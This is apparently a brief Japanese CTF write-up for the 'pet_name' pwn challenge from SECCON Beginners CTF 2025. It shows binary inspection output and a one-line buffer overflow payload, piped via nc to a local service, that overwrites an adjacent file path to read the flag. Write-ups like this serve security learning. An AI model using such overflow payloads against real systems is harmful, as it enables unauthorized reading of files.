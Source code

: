 # pet_name

100 Points / 586 Solves

## 調査

```sh
$ file chall
chall: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=582050b0b44dab77f1974ae31b51a0a7ef404dfa, for GNU/Linux 3.2.0, not stripped
```

```sh
$ checksec chall
[*] '/home/salt/ctf/writeup/2025/SECCON Beginners CTF 2025/pwn/pet_name/chall'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

- バッファオーバーフローができるため、隣接している読み込み先ファイルパスを上書きするだけで良い

## 実行

```sh
echo -n -e "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa/home/pwn/flag.txt\x00\n" | nc localhost 9080
```
